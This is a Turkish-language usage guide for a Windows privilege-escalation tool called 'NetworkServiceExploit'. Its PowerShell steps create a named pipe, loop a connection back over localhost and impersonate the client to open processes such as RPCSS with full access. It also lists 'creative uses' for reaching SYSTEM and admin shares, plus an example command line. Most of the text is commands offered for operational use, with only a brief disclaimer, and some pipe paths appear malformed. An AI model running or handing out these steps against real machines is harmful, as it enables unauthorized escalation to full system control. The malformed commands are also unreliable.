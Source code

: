 # NetworkServiceExploit Kullanım Kılavuzu

## Giriş
`NetworkServiceExploit`, Windows sistemlerinde `NETWORK SERVICE` hesabını kullanarak belirli zafiyetlerden yararlanmayı amaçlayan bir araçtır. Bu araç, `Named Pipes` ve `Impersonation` yöntemlerini kullanarak hedef işlemler üzerinde kontrol sağlamayı ve `SYSTEM` gibi yüksek ayrıcalıklı yetkilere erişmeyi hedefler.

Bu kılavuz, aracın kullanımını ve hedeflerin nasıl başarıyla gerçekleştirileceğini açıklar.

---

## Gereksinimler
- Windows 10 veya daha yeni bir sürüm
- Powershell veya benzeri bir komut satırı aracı
- `SeImpersonatePrivilege` ayrıcalığı olan bir `NETWORK SERVICE` oturumu
- Hedef işlemle aynı oturumda çalışan servisler

---

## Kullanım Adımları

### 1. **Named Pipe Oluşturma ve Dinleme**
Hedef sistemde bir Named Pipe oluşturun ve bağlantı bekleyin:
```powershell
$pipe = New-NtNamedPipeFile \.\pipe\ExploitPipe -Win32Path
$job = Start-Job { $pipe.Listen() }
```
Bu komut, `\.\pipe\ExploitPipe` adında bir Named Pipe oluşturur ve bağlantı bekler.

### 2. **Localhost Üzerinden Bağlantı Açma**
Oluşturulan Named Pipe üzerinden localhost bağlantısı kurun:
```powershell
$file = Get-NtFile \localhost\pipe\ExploitPipe -Win32Path
Wait-Job $job | Out-Null
```
Bu adım, dinleyiciyle bir bağlantı kurar ve bağlantının tamamlanmasını bekler.

### 3. **Hedef İşlemi Açma ve Yetkileri Alma**
`Impersonation` kullanarak hedef işlemi açın ve gerekli yetkileri alın:
```powershell
$p = Use-NtObject($pipe.Impersonate()) { 
    Get-NtProcess -ProcessId <ProcessID>
}
$p.GrantedAccess
```
`<ProcessID>` kısmını hedef işlem kimliği (örneğin, `RPCSS` servisinin ProcessID'si) ile değiştirin. `GrantedAccess` çıktısında `AllAccess` görmeniz gerekiyor.

### 4. **İşlem Yetkilendirmesini Doğrulama**
Alınan `Token` bilgilerini inceleyerek yetkilendirmeyi doğrulayın:
```powershell
$token = Use-NtObject($pipe.Impersonate()) { 
    Get-NtToken -Impersonation 
}
$token.Groups | ? Name -Match Rpcss
```
Bu komut, `NT SERVICE\RpcSs` gibi grupların etkin olduğunu doğrular.

---

## Yaratıcı Kullanımlar
- Hedef oturum üzerinde `SYSTEM` yetkisi elde etmek için Named Pipe üzerinden loopback kimlik doğrulama kullanabilirsiniz.
- `Admin Shares` erişimi sağlamak için `NETWORK SERVICE` hesabını kullanabilirsiniz.

---

## Örnek Kullanım
```powershell
NetworkServiceExploit.exe /pipe:ExploitPipe /process:1152
```
Bu komut, `ExploitPipe` adlı bir Named Pipe oluşturur ve `1152` ID'li işlemi hedefler.

---

## Hata Ayıklama
### 1. **Erişim Hatası**
Eğer bir işlem açarken `Access Denied` hatası alıyorsanız:
- Kullanıcınızın `SeImpersonatePrivilege` ayrıcalığına sahip olduğundan emin olun.
- Hedef işlemin aynı oturumda çalıştığını doğrulayın.

### 2. **Pipe Bağlantısı Sorunları**
Pipe bağlantıları başarısız oluyorsa:
- Named Pipe adının doğru yazıldığından emin olun.
- Hedef sistemin güvenlik ayarlarını kontrol edin.

---

## Güvenlik Notları
Bu araç yalnızca güvenlik araştırmaları ve eğitim amaçlı kullanılmalıdır. Kötüye kullanım durumlarında etik ve yasal sorumluluk kullanıcıya aittir.

---

## İletişim
Bu araç hakkında daha fazla bilgi almak veya geri bildirimde bulunmak için GitHub sayfasını ziyaret edebilirsiniz: [Tyranid's Blog](https://tyranidslair.blogspot.com).
